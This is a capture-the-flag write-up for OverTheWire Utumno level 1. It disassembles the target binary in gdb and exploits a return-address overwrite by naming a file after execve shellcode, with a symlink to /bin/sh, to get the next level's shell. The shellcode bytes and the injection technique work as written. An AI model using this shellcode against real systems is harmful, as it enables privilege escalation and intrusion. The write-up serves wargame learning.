 # Overthewire Utumno Level 1 Writeup

```bash
$ gdb ./utumno1 -q
Reading symbols from ./utumno1...done.
(gdb) disas main
Dump of assembler code for function main:
   0x080484a6 <+0>: push   %ebp
   0x080484a7 <+1>: mov    %esp,%ebp
   0x080484a9 <+3>: and    $0xfffffff0,%esp
   0x080484ac <+6>: sub    $0x20,%esp
   0x080484af <+9>: mov    0xc(%ebp),%eax
   0x080484b2 <+12>:  add    $0x4,%eax
   0x080484b5 <+15>:  mov    (%eax),%eax
   0x080484b7 <+17>:  test   %eax,%eax
   0x080484b9 <+19>:  jne    0x80484c7 <main+33>
   0x080484bb <+21>:  movl   $0x1,(%esp)
   0x080484c2 <+28>:  call   0x8048340 <exit@plt>
   0x080484c7 <+33>:  mov    0xc(%ebp),%eax
   0x080484ca <+36>:  add    $0x4,%eax
   0x080484cd <+39>:  mov    (%eax),%eax
   0x080484cf <+41>:  mov    %eax,(%esp)
   0x080484d2 <+44>:  call   0x8048380 <opendir@plt>
   0x080484d7 <+49>:  mov    %eax,0x18(%esp)
   0x080484db <+53>:  cmpl   $0x0,0x18(%esp)
   0x080484e0 <+58>:  jne    0x80484ee <main+72>
   0x080484e2 <+60>:  movl   $0x1,(%esp)
   0x080484e9 <+67>:  call   0x8048340 <exit@plt>
   0x080484ee <+72>:  jmp    0x8048522 <main+124>
   0x080484f0 <+74>:  mov    0x1c(%esp),%eax
   0x080484f4 <+78>:  add    $0xb,%eax
   0x080484f7 <+81>:  movl   $0x3,0x8(%esp)
---Type <return> to continue, or q <return> to quit---
   0x080484ff <+89>:  mov    %eax,0x4(%esp)
   0x08048503 <+93>:  movl   $0x80485d0,(%esp)
   0x0804850a <+100>: call   0x8048370 <strncmp@plt>
   0x0804850f <+105>: test   %eax,%eax
   0x08048511 <+107>: jne    0x8048522 <main+124>
   0x08048513 <+109>: mov    0x1c(%esp),%eax
   0x08048517 <+113>: add    $0xe,%eax
   0x0804851a <+116>: mov    %eax,(%esp)
   0x0804851d <+119>: call   0x804848d <run>
   0x08048522 <+124>: mov    0x18(%esp),%eax
   0x08048526 <+128>: mov    %eax,(%esp)
   0x08048529 <+131>: call   0x8048360 <readdir@plt>
   0x0804852e <+136>: mov    %eax,0x1c(%esp)
   0x08048532 <+140>: cmpl   $0x0,0x1c(%esp)
   0x08048537 <+145>: jne    0x80484f0 <main+74>
   0x08048539 <+147>: mov    $0x0,%eax
   0x0804853e <+152>: leave
   0x0804853f <+153>: ret
End of assembler dump.
(gdb) disas run
Dump of assembler code for function run:
   0x0804848d <+0>: push   %ebp
   0x0804848e <+1>: mov    %esp,%ebp
   0x08048490 <+3>: sub    $0x10,%esp
   0x08048493 <+6>: lea    -0x4(%ebp),%eax
   0x08048496 <+9>: add    $0x8,%eax
   0x08048499 <+12>:  mov    %eax,-0x4(%ebp)
   0x0804849c <+15>:  mov    -0x4(%ebp),%eax
   0x0804849f <+18>:  mov    0x8(%ebp),%edx
   0x080484a2 <+21>:  mov    %edx,(%eax)
   0x080484a4 <+23>:  leave
   0x080484a5 <+24>:  ret
End of assembler dump.
```

You give `utumno1` a dir, it recursively open files whose filename starts with `sh_` and passes the d_name of struct `dirent`(with offset 3) to function `run`.
The struct:

```c
struct dirent {
    ino_t          d_ino;       /* inode number */
    off_t          d_off;       /* offset to the next dirent */
    unsigned short d_reclen;    /* length of this record */
    unsigned char  d_type;      /* type of file; not supported
                                   by all file system types */
    char           d_name[256]; /* filename */
};
```

Function `run` uses the parameter to overwrite its return address. So I need to place the shellcode in the filename. Since Linux forbids any `0x2f` in the filename, we need a shellcode which does not have string `/bin/sh` in it. A soft link stands out to fullfill this task.

```bash
$ ln -s /bin/sh a
$ touch `python -c 'print "sh_\x31\xc0\x50\x6a\x61\x89\xe3\x99\x50\xb0\x0b\x59\xcd\x80"'`
$ ll
total 1192
drwxrwxr-x    2 utumno1 utumno1    4096 May 27 08:54 ./
drwxrwx-wt 4449 root    root    1118208 May 27 08:54 ../
lrwxrwxrwx    1 utumno1 utumno1       7 May 27 08:53 a -> /bin/sh*
-rw-------    1 utumno1 utumno1  385024 Apr 10 15:37 core
-rw-rw-r--    1 utumno1 utumno1       0 May 27 08:54 sh_1?Pja???P??Y??
-r-xr-x---    1 utumno1 utumno1    6799 Apr 10 15:10 utumno1*
$ /utumno/utumno1 .
$ whoami
utumno2
```

The shellcode is from (shellstorm)[http://shell-storm.org/shellcode/files/shellcode-589.php].
